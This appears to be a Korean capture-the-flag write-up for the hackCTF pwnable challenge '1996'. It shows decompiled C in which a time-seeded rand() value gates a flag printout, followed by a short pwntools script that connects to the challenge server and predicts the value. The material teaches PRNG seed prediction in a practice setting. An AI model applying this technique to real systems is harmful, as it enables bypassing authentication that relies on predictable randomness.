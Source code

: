 ```yaml
---
layout: post
title:  "[hackCTF]1996"
date:   2020-02-18
---
```


hackCTF pwnable 15번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v4; // [rsp+0h] [rbp-10h]
  int v5; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  v4 = 0;
  v3 = time(0LL); // 1970.01.01부터 현재까지 흐르는 초를 v3에 저장한다
  srand(v3); // v3를 기반으로 난수를 초기화한다.
  v5 = rand(); // srand를 바탕으로 난수를 생성한다.
  puts("============================");
  puts(asc_400948);
  puts("============================");
  printf("Input Key : ", 0LL, *(_QWORD *)&v4, v6);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
  {
    puts("Correct!");
    system("cat /home/random/flag"); // flag 출력
    exit(0);
  }
  puts("Nah...");
  exit(0);
}
```
랜덤으로 만들어진 v5와 입력한 값이 같다면 flag를 출력한다. time(0)을 기준으로 v5가 만들어지므로 똑같은 seed로 random 값을 만든다면 v5와 만든 값이 같을 것이다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *
from ctypes import *

p = remote('ctf.j0n9hyun.xyz', 3014)

clib = cdll.LoadLibrary('libc.so.6')
mylib = cdll.LoadLibrary('%s/mylib.so' % os.getcwd())

random = mylib.main()

p.sendline(str(random))

p.interactive()
```

## 결과
![1401](https://drive.google.com/uc?id=1c29YhzXiygH5fvEJk--Dkb5xEoBiBW7d)

## 참고
<a href="http://egloos.zum.com/mcchae/v/11024689">python에서 c 코드 실행하기</a>  
<a href="https://edu.goorm.io/learn/lecture/201/%EB%B0%94%EB%A1%9C-%EC%8B%A4%ED%96%89%ED%95%B4%EB%B3%B4%EB%A9%B4%EC%84%9C-%EB%B0%B0%EC%9A%B0%EB%8A%94-c%EC%96%B8%EC%96%B4/lesson/12382/%EB%82%9C%EC%88%98-%EB%9E%9C%EB%8D%A4-%EB%A7%8C%EB%93%A4%EA%B8%B0">rand 함수</a>
